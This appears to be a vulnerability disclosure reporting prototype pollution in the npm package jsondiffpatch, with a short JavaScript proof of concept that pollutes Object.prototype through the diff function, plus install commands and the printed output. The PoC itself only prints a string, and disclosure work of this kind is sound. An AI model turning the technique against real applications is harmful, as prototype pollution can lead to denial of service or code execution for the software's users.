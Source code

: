 # Description

`jsondiffpatch` is vulnerable to `Prototype Pollution`.
This package allowing for modification of prototype behavior, which may result in Information Disclosure/DoS/RCE.


# Proof of Concept

1. Create the following PoC file:

```js
// poc.js
var jsondiffpatch = require("jsondiffpatch")
var a = {name: "xyz"};
var b = JSON.parse(JSON.stringify(a));
b.__proto__.name = "Yes! Its Polluted";
jsondiffpatch.diff(a, b);
console.log({}.name) 
```

2. Execute the following commands in another terminal:

```bash
npm i jsondiffpatch # Install affected module
node poc.js #  Run the PoC
```

3. Check the Output:
```
Yes! Its Polluted
```
